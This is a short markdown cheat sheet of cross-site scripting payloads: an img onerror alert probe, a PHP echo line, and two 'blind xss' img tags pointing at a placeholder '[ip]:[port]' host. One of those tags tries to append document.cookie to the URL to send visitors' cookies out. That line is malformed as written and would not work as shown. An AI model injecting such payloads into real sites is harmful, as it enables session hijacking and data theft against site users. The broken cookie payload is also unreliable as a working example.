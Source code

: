 # XSS
```
<img src='#' onerror=alert(1) />

<?php echo 'test@test.test' ?>
```

blind xss
```
<img src="http://[ip]:[port]" />

<img src="http://[ip]:[port]?cookie=' + document.cookie + '" />

```